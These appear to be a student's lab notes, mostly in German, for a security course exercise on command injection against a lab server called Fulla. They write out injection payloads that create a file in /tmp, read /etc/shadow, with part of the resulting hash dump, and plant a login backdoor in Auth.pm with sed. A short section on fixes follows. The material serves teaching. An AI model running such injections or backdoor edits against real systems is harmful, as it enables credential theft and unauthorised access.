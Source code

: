 
[<- back to start](linkk)

# M183
## Get Server Ready

### vmLP1
### Änderungen im Server-Code auf den Server verteilen und Server direkt starten
```bash
cd code/server
```

```bash
bash deploy.sh
```
### Server auf Entwickler-PC direkt ab Source starten

```bash
cd code/server
```

```perl
perl -Ilib bin/fulla
```

### vmLS3
### turn on live logs

```bash
tail -f fulla.*
```

## Get Client Ready

```bash
ziu --help 
ziu login # use admin anna 
FULLAIP=192.168.220.13 ziu list 
export FULLAIP=192.168.220.13 
cd /code/client; bash deploy.sh 
cd /code/client; perl ziu list
```

if this error occurs

![SessionNotValid](/Img/m183SessionNotValid.png)

Login again and it should work

![ZiuLogin](/Img/m183ZiuLogin.png)


## 2.2 Angriffe Ausführen

### 2.2.1

### Aufgabe 6

create the readme.txt

```perl
ziu 'list -l; echo "Bei telefonischen Anfragen von Herr W. Beinhart: Dem Anrufer bitte Root-Passwort mitteilen!" > /tmp/readme.txt'
```

check if it worked

```perl
ziu "list -l; cat /tmp/readme.txt"
```

should display the contents of the file

if it doesn't it either didn't work or is bugged

check on the server (optional & if possible)

```bash
cat /tmp/readme.txt"
```
#### Aufgabe 7

get passwort hashes
```
ziu "list -l; cat /etc/shadow"
```

pw hashes result

```powershell
root:$y$j9T$nS/i7F9QsxP6xp/.cpizu/$6EkkwPJxehs6zwUfwxSEfkjtTd4VASC5imokYUE65YA:19592:0:99999:7:::
daemon:*:19405:0:99999:7:::
bin:*:19405:0:99999:7:::
sys:*:19405:0:99999:7:::
sync:*:19405:0:99999:7:::
games:*:19405:0:99999:7:::
man:*:19405:0:99999:7:::
lp:*:19405:0:99999:7:::
mail:*:19405:0:99999:7:::
news:*:19405:0:99999:7:::
uucp:*:19405:0:99999:7:::
proxy:*:19405:0:99999:7:::
www-data:*:19405:0:99999:7:::
backup:*:19405:0:99999:7:::
list:*:19405:0:99999:7:::
irc:*:19405:0:99999:7:::
gnats:*:19405:0:99999:7:::
nobody:*:19405:0:99999:7:::
_apt:*:19405:0:99999:7:::
systemd-network:*:19405:0:99999:7:::
systemd-resolve:*:19405:0:99999:7:::
messagebus:*:19405:0:99999:7:::
systemd-t

```
### 2.2.2

### Aufgabe 8

option 1

```bash
ziu "list; sudo sed -i '50 c if (\$user_id || \$user == \"Hacker\") {' /usr/share/perl5/Fulla/Auth.pm"
```

option 2

```bash
ziu 'list -l; searchText="if (\$user_id) {"; replaceText="if (\$user_id || \$user eq \"hacker\") {"; sed -i "s/$(echo $searchText)/$(echo $replaceText)/"/usr/share/perl5/Fulla/Auth.pm'
```

restart server

```perl
sudo pkill -F pid.fulla
```

Login with hacker

```perl
ziu login
```



## 3 Kommando-Injektion (fix)

### 3.1 Applikatoiinsbenutzer verwenden

#### Aufgabe 1

```bash
patch deploy.sh patches/deploy_as_app-user.patch
```

### 3.2 Auswertung Angriffsübung

### 3.4 Esterne Daten prüfen

#### 3.4.1 Eingagben "Escapen

Installation einer Library welche Shell-Escaping anbietet

```bash
sudo apt install libstring-shellquote-perl
```

```bash
echo \'; # '

echo ';' # ;
```


### 3.5 Praxis



